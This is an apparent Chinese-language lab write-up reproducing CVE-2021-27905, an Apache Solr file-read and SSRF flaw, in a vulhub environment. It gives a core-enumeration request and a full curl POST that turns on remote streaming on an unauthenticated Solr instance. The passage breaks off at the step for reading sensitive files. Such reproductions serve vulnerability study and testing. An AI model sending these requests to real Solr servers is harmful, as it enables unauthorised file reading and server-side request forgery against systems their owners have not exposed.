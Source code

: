 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVyic2xxump7rfvCgqpzHN4BxKubJuick2KNhx4vqBiaUic8WP2MnmckjAmg/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现：Apache
Solr文件读取&SSRF (CVE-2021-27905)  
  
描述：  
Apache Solr  
的某些功能存在过滤不严格，在  
Apache Solr  
未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成  
SSRF  
或文件读取漏洞。  
  
影响版本：全版本官方拒绝修复漏洞  
  
1.  
使用  
vulhub  
靶场启动环境，  
点击  
core
admin   
创建数据库。因为是靶场，需要自己创建  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVUQhdt6A6eCs4KibeEM1EQuLHmAByGw2t0MIo0oRcacvJibykuIeWccicw/640?wx_fmt=png&from=appmsg "")  
  
2.  
创建完成，访问：  
/solr/admin/cores?indexInfo=false&wt=json  
    
获取数据库名  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVByCzIcKJ62l5FNqlASadcm7AN97b2xY3b2IWQJ0icYVFGXhKSZwCJEQ/640?wx_fmt=png&from=appmsg "")  
  
3.  
通过命令行开启远程任意文件读取  
  
命令行执行命令：  
  
curl -i -s -k -X $'POST' \  
  
-H $'Content-Type: application/json'
--data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \  
  
$'http://目标  
ip:  
端口/solr/数据库名/config'  
  
成功开启：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVLT2UO4stF4ybQwmmA3iafMRtNicYsHF5icVOknPqibq1Lkhv9Gsicib9NDdQ/640?wx_fmt=png&from=appmsg "")  
  
4.  
读取敏感文件  
  